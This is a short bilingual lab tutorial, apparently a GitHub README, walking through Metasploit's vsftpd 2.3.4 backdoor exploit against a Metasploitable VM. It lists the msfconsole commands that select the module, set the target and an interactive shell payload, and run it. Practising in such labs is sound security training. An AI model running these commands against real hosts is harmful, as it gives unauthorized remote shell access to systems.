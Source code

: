 # Explorando a ferramenta 'metasploit' do Kali Linux | Vulnerabilidade FTP

## Ferramentas utilizadas:
> Máquina virtual Metasploitable Linux <br>
> Ferramenta Metasploit

###

[PT-BR]
1. Altere para o usuário root e digite o comando 'msfconsole' no terminal;
![results](metasploit_ftp.png)

2. Use `>search "vsftpd"` para buscar por exploits do "vsftpd";
3. Use `>info exploit/unix/ftp/vsftpd_234_backdoor` para obter mais informações sobre esse exploit;
4. Use `>use exploit/unix/ftp/vsftpd_234_backdoor` para utilizar esse exploit;
![results](metasploit_ftp_2.png)

5. Insira o comando `>show options` para mostrar a configuração do exploit;
6. Configure o IP da máquina Metasploitable em: `>set rhosts (endereço IP)`;
7. Insira o comando `>show options` para mostrar as novas configurações do exploit;
![results](metasploit_ftp_3.png)

8. Use `>set payload/cmd/unix/interact` para definir o payload para o exploit;
9. Use `>exploit` para executar o exploit.
![results](metasploit_ftp_4.png)

### Exemplo de resultados:

![results](metasploit_ftp_5.png)


# Exploring the Kali Linux 'metasploit' tool | FTP Vulnerability

## Tools used:
> Metasploitable Linux VM <br>
> Metasploit tool

###

[EN-US]
1. Switch to the root user and enter the 'msfconsole' command in the terminal;
2. Use <code>>search "vsftdpd"</code> to search for "vsftpd" exploit;
3. Use <code>>info exploit/unix/ftp/vsftpd_234_backdoor</code> for more info about this exploit;
4. Use <code>>use exploit/unix/ftp/vsftpd_234_backdoor</code> to use this exploit;
5. Insert <code>>show options</code> command to show the exploit configuration;
6. Set the metasploitable machine IP in: <code>>set rhosts (ipaddress)</code>;
7. Insert <code>>show options</code> command to show the new exploit configs;
8. Use <code>>set payload/cmd/unix/interact</code> to set the payload for the exploit;
9. Use <code>>exploit</code> to execute the exploit.

### Results example:



